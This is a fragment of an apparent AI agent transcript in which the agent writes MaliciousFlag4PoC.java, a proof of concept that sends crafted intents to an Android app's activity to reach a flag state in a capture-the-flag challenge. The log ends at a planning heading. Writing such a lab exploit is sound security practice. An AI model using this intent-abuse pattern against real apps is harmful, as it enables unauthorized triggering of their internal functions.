             '\n'
            '        // Step 4: Transition to GET_FLAG state\n'
            '        Intent getFlagIntent = new Intent();\n'
            '        getFlagIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        getFlagIntent.setAction("GET_FLAG_ACTION");\n'
            '        startActivity(getFlagIntent);\n'
            '        Log.d("MaliciousFlag4PoC", "Sent GET_FLAG_ACTION.");\n'
            '\n'
            '        // Step 5: Trigger success(this) from GET_FLAG state (any '
            'action will do)\n'
            '        Intent triggerFlagIntent = new Intent();\n'
            '        triggerFlagIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        triggerFlagIntent.setAction("TRIGGER_FLAG_ACTION"); // '
            'Can be any string\n'
            '        startActivity(triggerFlagIntent);\n'
            '        Log.d("MaliciousFlag4PoC", "Sent TRIGGER_FLAG_ACTION to '
            'get flag.");\n'
            '\n'
            '        // Optionally, finish this activity after sending '
            'intents\n'
            '        finish();\n'
            '    }\n'
            '}\n',
 'file_path': 'MaliciousFlag4PoC.java'})

--- Tool Observation ---
Success: Wrote 2721 bytes to '/Users/apple/projects/ultron-ai/test_data/Android-2/MaliciousFlag4PoC.java'.


==================== TURN 6/50 ====================

--- Request to Model ---
Role: user
Text: My mission is to: This is decompiled code of android app, I want u to analyse the code and solve the Flag4 challenege by providing a working poc to solve the challenge in that activity. Begin your analysis.
----------
Role: model
Text: **Formulating the Proof of Concept Strategy**

